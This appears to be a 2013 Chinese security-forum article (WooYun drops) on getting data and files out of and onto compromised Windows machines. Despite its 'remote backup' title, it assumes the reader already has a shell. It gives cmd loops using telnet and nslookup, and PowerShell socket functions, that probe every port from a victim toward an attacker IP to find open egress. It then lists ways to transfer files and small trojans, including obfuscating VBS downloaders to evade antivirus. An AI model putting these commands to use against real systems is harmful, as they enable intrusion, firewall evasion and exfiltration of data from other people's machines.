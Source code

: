# 远程备份数据库和文件的方法

2013/12/10 16:19 | [mickey](http://drops.wooyun.org/author/mickey "由 mickey 发布") | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

作者：Mickey 和 Anthr@X

## Windows

* * *

### 1.判断什么端口能出来

有时候有防火墙,你也不知道哪个端口能出来,你只有 SHELL,咋判断什么端口能出来呢?如果你是在 WIN VISTA 以下版本,那么用下面的命令可以啦

```
FOR /L %i IN (1,1,65535) DO (cmd /c "start /b telnet 1.2.3.4 %i") 
```

用 TELNET 不停的连接你的 1-65535 端口,你本地开个 TCPDUMP 就行了,如果连通了,就 OK 了.
如果 TCP 封锁了,可以用 UDP

```
FOR /L %i IN (1,1,65535) DO (cmd /c "start /b nslookup -port=%i wooyun.org 1.2.3.4") 
```

这个就更慢了,但是有效,其中的 wooyun.org 是你可以设置自己的动态域名

如果是 VISTA 以后的版本,自带有 POWERSHELL:

下面分别是走 TCP 和 UDP 的

```
function sT($IP,$Port) {$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint $address, $port;$Saddrf = [System.Net.Sockets.AddressFamily]::InterNetwork;$Stype = [System.Net.Sockets.SocketType]::Stream;$Ptype = [System.Net.Sockets.ProtocolType]::TCP;$Sock = New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;try { $sock.Connect($End);[Byte[]] $Message = [char[]]"w00tw00t";$Sent = $Sock.Send($Message);$sock.EndConnect($Connect)} catch {};$Sock.Close();};1..65535 | %{ sT -IP "1.2.3.4" -Port $_ } 
```

```
function sU($IP, [int]$Port){$Address = [system.net.IPAddress]::Parse($IP);$End = New-Object System.Net.IPEndPoint($Address, $port);$Saddrf=[System.Net.Sockets.AddressFamily]::InterNetwork;$Stype=[System.Net.Sockets.SocketType]::Dgram;$Ptype=[System.Net.Sockets.ProtocolType]::UDP;$Sock=New-Object System.Net.Sockets.Socket $saddrf, $stype, $ptype;$Sock.TTL = 26;$sock.Connect($end);$Enc=[System.Text.Encoding]::ASCII;$Message = "w00tw00t";$Buffer=$Enc.GetBytes($Message);$Sent=$Sock.Send($Buffer);}; 1..65535 | %{ sU -IP "1.2.3.4" -Port $_ } 
```

### 2.WIN 下传文件

如果是 VISTA 以下版本,可以用 TFTP/FTP/TELNET,这个网上文章很多的了,另外如果你搞的是国外的,不要忘记 SMB,如果能走 HTTP 的 80,可以用 VBS 的 ADODB.Stream 来下载,不过这个已经被很多杀毒软件杀了,编写的时候编码混淆下就行了.但不保证能过主动防御,还是少用,另外 zzzEVAzzz 的那个 Any2Bat 可以直接传文件,就是体积有限制,不能传太大的文件,传小马的话应该可以了.如果能走 80 的话,还可以尝试下 WEBDAV,WIN Vista 以后就方便了,直接用内建命令 bitsadmin 就行了

